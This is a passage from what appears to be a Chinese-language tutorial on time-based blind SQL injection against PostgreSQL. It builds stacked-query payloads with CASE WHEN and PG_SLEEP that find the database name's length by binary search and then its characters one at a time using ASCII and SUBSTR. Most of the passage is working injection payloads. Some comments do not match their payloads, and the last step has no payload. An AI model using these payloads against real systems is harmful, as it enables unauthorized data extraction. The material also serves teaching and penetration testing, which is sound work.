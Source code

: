 利用通用 payload 就可以构造很多针对性的 payload 了。

例如我们要得到数据库的名称，在 pgsql 中可以通过 `CURRENT_DATABASE()` 函数获得。

不过要通过布尔注入获得这个值，需要先知道这个名称（字符串）的长度。

为此可以构造这组 payload ，通过不断二分法进行长度猜测，得知数据库名称长度为 15 ：

```sql
// 猜测数据库名称的长度大于 10，页面发生延时，说明猜测正确
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) > 10) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的长度小于 10，页面发生延时，说明猜测正确
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) < 20) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的长度小于 15，页面没有延时，说明猜测错误
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) < 15) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的长度大于 15，页面没有延时，说明猜测错误
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) > 15) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 验证数据库名称的长度等于 15，页面发生延时，说明猜测正确
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) = 15) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
```


知道长度后，可以开始逐字符猜解数据库名称。

这个过程中需要利用到的函数有两个：

- `SUBSTR(str,pos,len)` ：从 str 中下标为 pos 的字符开始截取长度为 len 的子串（pos 从 1 开始）
- `ASCII(char)` ：得到字符的十进制 ASCII 编码

而逐字符猜解数据库名称的原理也是很简单，通过二分法确定数据库名称每一个字符在 ASCII 表中的哪个位置即可。

ASCII 表的十进制范围为 0~127 ，因此要确定一个字符，最多需要二分查找 7 次。

实际操作一下，构造第 1 个字符的 payload 组如下，得到第 1 个字符为 `c`：

```sql
// 猜测数据库名称的第 1 个字符 ASCII 码大于 64，页面发生延时，说明猜测正确，该字符范围为 (64, 127]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) > 64) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 1 个字符 ASCII 码大于 98，页面发生延时，说明猜测正确，该字符范围为 (98, 127]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) > 98) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 1 个字符 ASCII 码大于 114，页面没有延时，说明猜测错误，该字符范围为 (98, 114]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) > 114) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 1 个字符 ASCII 码小于 106，页面发生延时，说明猜测正确，该字符范围为 (98, 106)
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) < 106) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 1 个字符 ASCII 码小于 102，页面发生延时，说明猜测正确，该字符范围为 (98, 102)
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) < 102) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 1 个字符 ASCII 码小于 100，页面发生延时，说明猜测正确，该字符范围为 (98, 100)
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) < 100) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 1 个字符 ASCII 码等于 99，页面发生延时，说明猜测正确，该字符为 ASCII(99) = 'c'
```